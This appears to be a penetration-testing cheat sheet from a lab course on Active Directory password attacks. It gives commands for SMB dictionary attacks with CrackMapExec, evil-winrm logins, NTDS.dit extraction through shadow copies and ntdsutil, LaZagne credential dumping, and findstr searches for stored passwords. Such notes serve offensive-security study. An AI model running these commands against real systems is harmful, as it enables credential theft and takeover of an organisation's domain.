 ### Dictionary Attacks against AD accounts using CrackMapExec

```
./username-anarchy -i /home/ltnbob/names.txt

crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
## or
netexec smb 10.129.111.214 -u posi -p passwords2
```

### Capturing NTDS.dit

**vssadmin**
```powershell
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'

## Checking Local Group Membership of Administrators 
*Evil-WinRM* PS C:\> net localgroup

## Creating Shadow Copy of C:
vssadmin CREATE SHADOW /For=C:

## Copying NTDS.dit from the VSS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

```
**ntdsutil**
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

### A Faster Method: Using cme to Capture NTDS.dit
```
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

## Credential Hunting in Windows

### Lazagne 
- [https://github.com/AlessandroZ/LaZagne?](https://github.com/AlessandroZ/LaZagne?)
```
.\lazagne.exe all
```

### Using findstr

```cnd
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

**keep in mind when credential hunting:**
- Passwords in Group Policy in the SYSVOL share
- Passwords in scripts in the SYSVOL share
- Password in scripts on IT shares
- Passwords in web.config files on dev machines and IT shares
- unattend.xml
- Passwords in the AD user or computer description fields
- KeePass databases --> pull hash, crack and get loads of access.
- Found on user systems and shares
- Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint

